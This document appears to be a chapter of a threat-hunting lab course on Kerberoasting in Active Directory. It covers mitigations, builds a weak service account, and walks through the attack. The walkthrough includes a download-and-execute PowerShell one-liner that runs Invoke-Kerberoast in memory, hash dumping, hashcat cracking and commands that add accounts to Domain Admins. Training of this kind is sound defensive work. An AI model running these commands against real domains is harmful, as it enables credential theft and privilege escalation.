


# Chapter 2.2 - Kerberoasting

> **So why is Kerberoasting so interesting :**
>
>- can be performed from any ***domain joined machine***.
>- user needs no special privileges to request a service ticket - ***ANY*** authenticated user can do this.
>- The target system doesn't even need to be available or even exist anymore, if the SPN (service account that exists is enough).
>- Very hard to spot as this blends in with other service ticket requests.
>- Cracking the ticket happens ***off-line***.

**Here's the gist of it:**

Part of a TGS requested for any SPN, is encrypted with the **NTLM hash of that service account’s plaintext password**, any user can request these TGS tickets and then crack hash of the service account offline, without the risk of account lockout!

# HIGH LEVEL OVERVIEW OF KERBEROS
---


<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---


<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

>**Kerberoasting mitigations:** The best way to prevent adversaries from cracking kerberos tickets is by using very long and complex passwords. Service Accounts should have a minimum of **25 characters**, make sure to frequently **rotate** the passwords and adhere to the **least privilege** principle when assigning rights to the account (i.e. Don't add the account to Domain Admins just because it's easy). You can also consider using Group Managed Service Accounts (**GSMA**) or another third-party product such as a password vault.

The table below shows you the average time it would take to brute-force a password, keep in mind these numbers only reflect hard brute forcing, so not using password dictionaries or rainbox tables.

---


---

A Few useful **CLI** commands:

|command|Details|
|---|---|
|**net user SVC_SQL /domain**|*Query DC for user details.*|
|**net user SVC_SQL Password123!**|*Set the password of a domain user to Password123.*|
|**net user /add /domain /active:yes SVC_SQL Password123!**|*Add a user to the domain, enable the account and set the password.*|
|**net user SVC_SQL /domain /active:no**|*Disable (or enable) a domain account*|
|**net group "domain admins" SVC_SQL /ADD /DOMAIN**|*Add account to "Domain Admins" (or any other group).*|
|**setspn -T acme -Q \*/\***|*Enumerate all Service Principal Names (SPN), to find service accounts.*|
|**setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql**|*Create an SPN for an account.*|

---

And the same in **POWERSHELL**:

|command|Details|
|---|---|
|**$secpasswd = ConvertTo-SecureString -String "Password123" -AsPlainText -Force**|*Put the password in a variable.*|
|**New-ADuser -Name 'SVC_SQL' -GivenName 'SVC' -Surname 'SQL' -DisplayName 'SVC_SQL' -AccountPassword $secpasswd -enabled 1**|*Add a user to the domain, enable the account and set the password.*|

---

So now let's set up our lab environment by creating a kerberoastable account that has a weak password.

First of all open a new command prompt and let's make sure we have domain admin privileges, needed for creating an account in the domain. The ***password*** for DA_student = student.

```yaml
runas /user:DA_student@acme.local cmd.exe
```

Now we are running a command prompt under DA_student account.

```yaml
net user /add /domain /active:yes SVC_SQL Password123!
```

This will create a new user, activates the account and sets the password to "Password123!".

```yaml
setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql
```

The setspn -A command will set up the SPN for the service account, in this case for a service on the domain controller (dc.acme.local) on port 12345.

Let's check if the SPN was correctly registered:

```yaml
setspn -T acme -Q */*
```


# KERBEROASTING IN ACTION
---

- source: ***[GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)*** - link

Let's see which **SPN**'s exist and to which groups they belong, let try to get some parent process activity going. Open a **command** prompt:

```yaml
powershell.exe -NoP -NonI -Exec Bypass -command "c:\labs\4_KERBEROAST\GetUserSPNs.ps1"
```



Now let's request a ticket for those SPN's, by running the one-liner below you're again doing the attack in a file-less manner by downloading the Invoke-Kerberoast powershell script directly into the memory of `powershell.exe`:

- source: ***[Invoke-Kerberoast.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)*** - link

Open a **powershell** prompt (as Administrator):

```yaml
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1");Invoke-Kerberoast
```


Let's run it locally and save the hashes, this will avoid copy/paste errors, open a **powershell** prompt:

```yaml
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1');
```

```yaml
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```


So by default this will ***enumerate amd rquest tickets for ALL SPN's*** on a domain, this of course is suspicious as a user would never to request all those tickets at the same time. A more stealthy adversary will first do his recon (GetUserSPN's for example) and see which service accounts might prove juicy targets, and then just request a **single SPN**:

In the SAME **powershell** prompt:

```code
invoke-kerberoast -Identity SVC_sql
```

> Invoke-Kerberoast's default output is for **John** (the password cracker installed by default on Kali), you need to change the output format to **HashCat** in order to crack the hashes with hashcat.

On your `Windows 10 machine` use WinSCP to transfer ***hashes.kerberoast*** to your Ubuntu machine under the path ***"/opt/kerberos/"*** :

Or you can use SCP to copy the file over:

```yaml 
scp Top1000.txt root@192.168.18.204:/opt/kerberos/Top1000.txt
```

> **IMPORTANT**: If you want to run this attack multiple times, don't forget to purge your Kerberos tickets. Kerberos Tickets are cached for SSO purposes, so if you run the Invoke-Kerberoast script multplie times, your client will not request a new TGS from the DC when it still has one in it's cach.
>
> You can view and clear the cache with these commands:

```yaml
klist
```
```yaml
klist purge
```


# CRACKING HASHES USING HASHCAT
---

On your `Ubuntu Machine` we're going to use hashcat to crack the hashes

First let's install hashcat

```yaml
sudo apt update
apt install hashcat
```

```yaml
cd /opt/kerberos
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords.txt --potfile-disable -o cracked.txt
```

To clear the cache:

```yaml
hashcat --remove hashes.kerberoast
```

To clear the potfile
```yaml
sudo rm ~/.hashcat/hashcat.potfile
```


